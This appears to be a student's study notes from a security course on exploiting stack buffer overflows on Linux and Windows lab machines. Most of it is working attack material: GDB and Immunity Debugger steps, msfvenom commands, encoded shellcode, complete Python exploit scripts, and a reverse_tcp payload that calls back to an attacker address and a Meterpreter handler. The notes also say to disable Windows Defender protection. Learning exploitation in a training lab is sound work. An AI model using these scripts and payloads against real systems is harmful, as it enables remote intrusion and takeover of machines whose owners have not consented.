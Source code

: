
# Buffer Overflow Common Terms
* Heap
* Stack
* Registers
* Instruction Pointer
* Stack Pointer
* Base Pointer
* Function
* Shellcode
# Buffer Overflow Defenses
* Non executable (NX) Stack
* Address Space Layout Randomization (ASLR)
* Data Execution Prevention (DEP)
* Stack Canaries
* Position Independent Excutable (PIE)
# GDB Uses
* installation pf peda plugin
    git clone https://github.com/longld/peda.git ~/peda
    echo "source ~/peda/peda.py" >> ~/.gdbinit
### Common Commands
```
disass <FUNCTION>     # Disassemble portion of the program
info <...>    # Supply info for specific stack areas
x/256c $<REGISTER>    # Read characters from specific register
break <address>    # Establish a break point
run <<<$(echo "asdfghjlklk")    # Goes into standard in of program. It makes it take an arguement before running the program
info functions    # Lists all the functions
pdisass main    # Lists the main function. (Can do this to any function)
info proc map    # Gets a map of the process
```
# Demo Linux
* [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
  - Look for "EIP" It should have a specific value from the characters you overflowed it with, copy the hex value determine the overflow amount
* To see the size of the stack, do "info proc map" and note the line with [heap], the line below that has a start addr (this is the start of the stack). Note the end addr of the line that has [stack] in it.
* find /b command:
  - `0xff` is jmp
  - `0xe4` is ESP
* `\x90` is NOP
```
run ./func <<<$(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  # what thi does id run func and uses command substitution starting at the gators to input bad strings
   
# Find out the overflow value
# Exit
# Enter a fresh gdb session without peda
*STEP 1 env - gdb ./func    # This allows you to do that ^
* pdisass getuserinput # shows code for a function called getuserinput
* shell takes you to your lin ops lines type exit to go back to gdb
* type run then do the overflow of characters 
* show env    # Lists variables
##   # redirects the input to run the file we created that will spam "A" however many times we want
## copy hex value in the EIP after the 0x

```
 #!/usr/bin/env python 
   
   buffer = "A" * 62
   eip = "BBBB"
   
   print(buffer+eip)
```
## the code aboce does a buffer overflow and replaces the EIP to check for validity 
## * unset env <variable>    # This unsets a variable
* info proc map    # Gets a map of the process after the crash
```
crash:
tarting program: /home/student/func 
Enter a string: 
ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```            1            2       3     4
* find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command (1)
* Then then tell it to not use the NULL Byte (2)
* Finally we tell it to format it to python (3)
```                              1           2         3
msfvenom -p /linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads
```
## shell code we push onto the program 
buf =  b""
buf += b"\xba\xf9\xfc\xc9\x23\xdd\xc3\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x10\x03\x50"
buf += b"\x10\x1b\x09\xa3\x28\x83\x6b\x66\x49\x5b\xa1\xe4"
buf += b"\x1c\x7c\xd1\xc5\x6d\xea\x22\x72\xbd\x88\x4b\xec"
buf += b"\x48\xaf\xde\x18\x4d\x2f\xdf\xd8\x25\x47\xb0\xb9"
buf += b"\xa4\xfe\x4e\x6d\x64\x89\xae\x5c\x0a"

## how to generate shell code via msfconsole
payload/linux/x86/exec
show options 
set cmd whoami
    then show options to verify

## your script to get the code to work should be this (shell code is buf and is variable)
!/usr/bin/env python 
   
buffer = "A" * 62
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf =  b""
buf += b"\xbb\x35\x5d\x8c\xf4\xd9\xed\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x0b\x31\x5a\x14\x83\xea\xfc\x03\x5a"
buf += b"\x10\xd7\xa8\xe6\xff\x4f\xca\xa5\x99\x07\xc1\x2a"
buf += b"\xef\x30\x71\x82\x9c\xd6\x82\xb4\x4d\x44\xea\x2a"
buf += b"\x1b\x6b\xbe\x5a\x1c\x6b\x3f\x9b\x54\x03\x50\xfa"
buf += b"\xf7\xba\xae\xab\x54\xb5\x4e\x9e\xdb"
print(buffer+eip+nop+buf)

then run on the gdb-peda with: run <<<$(./buff.py)

 ## run <<< $(./buffer.py)            runs the file loaded with the file command and runs it with the script 
## Starting program: /home/student/SECURITY/inventory.exe <<< $(./buffer.py)

once the script and stuff works for a windows machine all you need to change on the script is the EIP

## steps to do for exploiting a buffer overflow on linux 
1. env - gdb ./exe or gdb
2. run the file and spam characters from the generator to get a segmentation fault
3. unset the envs, 
4. then run info proc map
5. run find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
6. Take first 4 and make them little endian
7. take the first one and make it your eip 
8.generate shellcode with msfvenom
9. store into the script then run
        (file ./<file> then type: run <<< $(./<script>)
## it is imprtant to note transferring scripts across machines requires to replace eip because the eip youll use on yourlinops will be different from the web server

## how to use debugger and accomplish our exploit
1. env - gdb /path/.exe 
2. run # runs the executable to prepare for the overflow
3. after getting a SIGSEGV mesage do: info proc map
4. use the command find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
5. then take first 4 to make little endian, put the first one as your EIP in the script 
6. sudo (because we needed root to run against the file we are cating) /path/.exe <<< $(~/buffer.py)

when you see a strcopy string its vulnerable to overflow
netstat -anob
task manager > performance > open resource monitor to see what port and processes run 
use: nc <your ip> <port opened by serversind>         to interact with the port that is opened by a process 
 
```
# Demo Windows
### The Setup
* Run strings.exe on the executable      # .\downloads\SYSINTERNALS\strings.exe .\downloads\.exe
* Look for vulnerable variables        # strcopy and no stack protection 
* Go to [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and generate the string that will narrow the buffer offset
* Make the python [script](scripts.md)
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp
```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
run
```
```
## windows exploit
1.
  #!/usr/bin/env python
  import socket
 
  buf = "TRUN /.:/" 
  buf += "<2200 chars>"
  
   s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
   s.connect(("192.168.65.10", 9999))
   print s.recv(1024)
   s.send(buf)
   print s.recv(1024)
          
   s.close()

# 2. once the immunity debugger has the process its running crash and record the eip to gt the buffer

# 3. replace your 2200 chars with the buffer, then to check write a new buf line so its like this
4.  import socket
  3 
  4 buf = "TRUN /.:/"
  5 buf += "A" * 2003
  6 buf += "BBBB"
  7 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  8 s.connect(("192.168.65.10", 9999))
  9 print s.recv(1024)
 10 s.send(buf)
 11 print s.recv(1024)
 12 
 13 s.close()

# 4. once rerun you can also run !mona modules to see what is vulnrable 
# 5. !mona jmp -r esp -m "essfunc.dll" to find jm locations in the dll, look for the 9 pointers and grab the first 4 copy the address and change the uppercase letters to lowercase

# 6. replace the 4 Bs wiht the first one you grab thatll be your jmp esp location 
# 7. generate shellcode with  msfvenom -p windows/shell/reverse_tcp lhost=<linops ip> lport=<RH> -b "\x00" -f python
# 8. use msfconsole to give the following:
        ayload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
  this doesnt matter >>> EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     <RHP>            yes       The listen port

   
# 9. turn off windows defender real time protection then run the multi/handler exploit

# 10. meterpreter shell should be established now 

## script should look like this 

 #!/usr/bin/env python
  2 import socket
  3 
  4 buf = "TRUN /.:/"        # command to run 
  5 buf += "A" * 2003        # buffer
  6 buf += "\xa0\x12\x50\x62"    # EIP
  7 buf += "\x90" * 15            # NOP sled
  8 # 0x625012A0 -> 0x62 50 12 a0 "\xa0\x12\x50\x62"        # info proc map
  9 # 0x625012AD
 10 
 11 buf += b"\xbb\xe3\xd2\x14\xba\xdb\xd5\xd9\x74\x24\xf4\x5d"        # shellcode from msfvenom
 12 buf += b"\x31\xc9\xb1\x59\x31\x5d\x14\x83\xc5\x04\x03\x5d"
 13 buf += b"\x10\x01\x27\xe8\x52\x4a\xc8\x11\xa3\x34\xf8\xc3"
 14 buf += b"\xc7\x3f\xa8\xd3\x8c\x6d\x41\x9d\x76\x1a\x0b\x89"
 15 buf += b"\x49\xe3\x27\xc3\x81\x14\x8f\x6e\xf4\x1b\x2f\xc2"
 16 buf += b"\xc4\x3a\xd3\x19\x19\x9c\xea\xd1\x6c\xdd\x2b\xa4"
 17 buf += b"\x1b\x32\xe1\x60\x6f\x9e\x16\x04\x2d\x22\x16\xca"
 18 buf += b"\x39\x1a\x60\x6f\xfd\xee\xdc\x6e\x2e\x5e\x56\x38"
 19 buf += b"\xd6\xd5\x30\x99\xe7\x3a\x45\x10\x93\x80\x77\x5c"
 20 buf += b"\x15\x73\x43\x29\xa7\x55\x9d\xed\x04\x98\x11\xe0"
 21 buf += b"\x55\xdd\x96\x1b\x20\x15\xe5\xa6\x33\xee\x97\x7c"
 22 buf += b"\xb1\xf0\x30\xf6\x61\xd4\xc1\xdb\xf4\x9f\xce\x90"
 23 buf += b"\x73\xc7\xd2\x27\x57\x7c\xee\xac\x56\x52\x66\xf6"
 24 buf += b"\x7c\x76\x22\xac\x1d\x2f\x8e\x03\x21\x2f\x76\xfb"
 25 buf += b"\x87\x24\x95\xea\xb8\xc5\x65\x13\xe5\x51\xa9\xde"
 26 buf += b"\x16\xa1\xa5\x69\x64\x93\x6a\xc2\xe2\x9f\xe3\xcc"
 27 buf += b"\xf5\x96\xe4\xee\x2a\x10\x64\x11\xcb\x60\xac\xd6"
 28 buf += b"\x9f\x30\xc6\xff\x9f\xdb\x16\xff\x75\x71\x1d\x97"
 29 buf += b"\xb5\x2d\x60\x73\x5e\x2f\x63\xec\x44\xa6\x85\x42"
 30 buf += b"\x29\xe8\x19\x23\x99\x48\xca\xcb\xf3\x47\x35\xeb"
 31 buf += b"\xfb\x82\x5e\x86\x13\x7a\x36\x3f\x8d\x27\xcc\xde"
 32 buf += b"\x52\xf2\xa8\xe1\xd9\xf6\x4d\xaf\x29\x73\x5e\xd8"
 33 buf += b"\x4d\x7b\x9e\x19\xf8\x7b\xf4\x1d\xaa\x2c\x60\x1c"
 34 buf += b"\x8b\x1a\x2f\xdf\xfe\x19\x28\x1f\x7f\x2b\x42\x16"
 35 buf += b"\x15\x13\x3c\x57\xf9\x93\xbc\x01\x93\x93\xd4\xf5"
 36 buf += b"\xc7\xc0\xc1\xf9\xdd\x75\x5a\x6c\xde\x2f\x0e\x27"
 37 buf += b"\xb6\xcd\x69\x0f\x19\x2e\x5c\x13\x5e\xd0\x22\x3c"
 38 buf += b"\xc7\xb8\xdc\x7c\xf7\x38\xb7\x7c\xa7\x50\x4c\x52"
 39 buf += b"\x48\x90\xad\x79\x01\xb8\x24\xec\xe3\x59\x38\x25"
 40 buf += b"\xa5\xc7\x39\xca\x7e\xf8\x40\xa3\x81\xf9\xb4\xad"
 41 buf += b"\xe5\xfa\xb4\xd1\x1b\xc7\x62\xe8\x69\x06\xb7\x4f"
 42 buf += b"\x61\x3d\x9a\xe6\xe8\x3d\x88\xf9\x38"
 43 
 44 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)            # socket stuff for windows
 45 s.connect(("192.168.65.10", 9999))        # used the win ops ip cause we are trying to get on it and used the port the vulnerable .exe                                                    opens
 46 print s.recv(1024)
 47 s.send(buf)
 48 print s.recv(1024)
 49 
 50 s.close()
